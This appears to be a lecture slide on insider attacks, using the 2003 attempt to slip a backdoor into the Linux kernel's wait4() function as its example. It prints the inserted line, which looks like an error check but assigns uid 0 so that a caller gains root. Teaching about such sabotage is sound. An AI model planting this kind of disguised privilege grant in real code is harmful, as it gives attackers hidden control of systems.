

# Insider attacks:  example
Hidden trap door in Linux  (nov 2003)
Allows attacker to take over a computer
Practically undetectable change  (uncovered via CVS logs)

Inserted line in wait4()

Looks like a standard error check, but …

	if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
			retval = -EINVAL;
See: http://lwn.net/Articles/57135/